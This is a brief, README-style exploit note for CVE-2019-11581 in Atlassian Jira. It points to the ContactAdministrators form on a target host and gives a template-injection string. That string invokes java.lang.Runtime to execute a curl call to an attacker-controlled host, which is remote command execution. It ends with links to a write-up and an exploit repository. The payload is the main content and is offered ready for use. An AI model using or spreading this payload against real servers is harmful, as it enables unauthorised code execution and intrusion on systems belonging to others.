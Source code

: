 ### Go to
https://<rhost>/secure/ContactAdministrators!default.jspa  

### Enter malicious string into form
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl https://<lhost>').waitFor()
```

### References
https://thehackerish.com/jira-vulnerabilities-and-how-they-are-exploited-in-the-wild  
https://github.com/kobs0N/CVE-2019-11581.git  

